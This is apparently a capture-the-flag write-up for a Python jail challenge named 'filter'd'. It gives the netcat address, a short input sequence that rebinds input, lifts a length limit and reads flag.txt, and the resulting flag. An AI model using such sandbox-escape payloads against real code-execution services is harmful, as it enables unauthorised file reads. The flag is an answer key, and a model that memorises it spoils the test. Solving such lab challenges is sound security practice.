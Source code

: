 # filter'd
## Description
> i asked the tech support guy for help with escaping this jail but all he said in his reply was "lmao u just got filter'd"...
>
> nc challs3.pyjail.club 8791

## 
![image](https://github.com/user-attachments/assets/2b0faf21-c47f-4b70-a717-825783f04d37)

![image](https://github.com/user-attachments/assets/499338a3-227f-4f09-a04a-9f4b14baaa98)

```bash
> i=input;f(i())
M*=10;f(i())
print(open('flag.txt').read())
jail{can_you_repeat_that_for_me?_aacb7144d2c}
```

## Flag
```
jail{can_you_repeat_that_for_me?_aacb7144d2c}
```
